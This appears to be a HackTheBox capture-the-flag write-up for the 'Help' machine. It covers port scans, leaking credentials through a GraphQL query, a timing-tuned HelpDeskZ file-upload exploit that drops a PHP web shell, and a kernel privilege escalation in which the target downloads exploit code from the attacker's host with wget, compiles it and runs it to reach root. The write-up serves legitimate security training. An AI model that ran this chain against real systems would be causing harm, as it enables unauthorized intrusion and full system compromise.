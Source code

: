 ```yaml
---
title: "HackTheBox: Help Write Up!"
date: 2019-04-02
tags: [Hackthebox, ctf, writeup, Help]
excerpt: "HackTheBox: Help Write Up!"
header:
  image: "assets/images/hackthebox-images/carrier-hackthebox-header.png"

---
```


# Enumeration:

## Nmap:

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 --max-retries 0 -o help-max.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:42 EST
Warning: 10.10.10.121 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.121
Host is up (0.21s latency).
Not shown: 38798 filtered ports, 26735 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 -T4 -Pn -o help-all.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:43 EST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.40% done; ETC: 14:54 (0:10:52 remaining)
Warning: 10.10.10.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.121
Host is up (0.22s latency).
Not shown: 65525 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
3000/tcp  open     ppp
8095/tcp  filtered unknown
15523/tcp filtered unknown
17954/tcp filtered unknown
17965/tcp filtered unknown
43723/tcp filtered unknown
60785/tcp filtered unknown
62421/tcp filtered unknown
```

## Fetching credentials from graphql Port 3000:

Index page:

```console
root@HassanKhan:~# curl "http://10.10.10.121:3000/" && echo -e "\n"
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran dirsearch and was able to find the endpoing query. After looking at the syntax of graphql that how it works, I was finally able to query the right syntax and was able to fetch credentials from that.

```console
root@HassanKhan:~# curl -s "http://10.10.10.121:3000/graphql?query=query%20%7B%20%0A%20%20user%7Busername:password%7D%0A%7D&variables=%7B%7D" | jq
{
  "data": {
    "user": {
      "username": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```
Decrypt the md5 hash:

5d3c93182bb20f07b994a7f617e99cff : godhelpmeplz

Additionally, I have used extension that helped me to query the right syntax of graphql. That extension is “Altair Graphql Client”.

## Port 80:

Nikto scan:

```console
root@HassanKhan:~# nikto -h 10.10.10.121

Nikto v2.1.6/2.1.5
Target Host: 10.10.10.121
Target Port: 80
GET Server leaks inodes via ETags, header found with file /, fields: 0x2c37 0x57ff4a041d89c
GET The anti-clickjacking X-Frame-Options header is not present.
GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
OSVDB-3268: GET /admin/: Directory indexing found.
OSVDB-3092: GET /admin/: This might be interesting...
GET Cookie PHPSESSID created without the httponly flag
GET Cookie lang created without the httponly flag
OSVDB-3092: GET /support/: This might be interesting...
OSVDB-3233: GET /icons/README: Apache default file found.
```

Nothing interesting expect the /admin/ directories. Running dirsearch on port 80 brought /support/
 directory in front of me which was helpdeskz.

 Looking if there's any exploit available for the helpdeskz.

## Exploitation:

Searching for public exploits:

```console
root@HassanKhan:~# searchsploit helpdeskz
HelpDeskZ 1.0.2 - Unauthenticated Arbitrary File Upload
HelpDeskZ < 1.0.2 - Authenticated SQL Injection / Unauthorized File
```

 So we found 2 exploits so far. great! As, helpdeskz is open-source, we can check that how does file upload work.
 @ https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/view_tickets_controller.php

 To made the exploit work, I had to do some modifications in the exploit that were:
 + adjusting the time that is
 currentTime = int(time.time() + 7200) and
 + changing the loop
 for x in range(0, 500): // 500 all most 8 mins

You have to do modifications to the exploit code according to the difference between your time and the server response time. anyways, this could be done manually as well. Manual steps will be:

+ Uploaded php file splint3r7.php
+ Extracted the data header from response
+ converted the date header into seconds timestamp
@ https://www.epochconverter.com/
+ converted md5(filename.phptimestamp)
+ Found the shell on server with directory:
+ 10.10.10.121/support/uploads/tickets/md5string.php

## Privilege Escalation:

```console
$ uname -a
linux 4.4.0-116-generic
```

Exploit:
@ https://www.exploit-db.com/exploits/44298

```console
help@help:/tmp$ wget 10.10.14.49:1330/exploit1337.c
help@help:/tmp$ gcc exploit1337.c -o exploit1337h
gcc exploit1337.c -o exploit1337h
help@help:/tmp$ ./exploit1337h
./exploit1337h
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
cd /root/
ls -la
cat root.txt
b7fe6082dcdf0c1b1e02ab0d9daddb98
```

And we just owned the root ;)
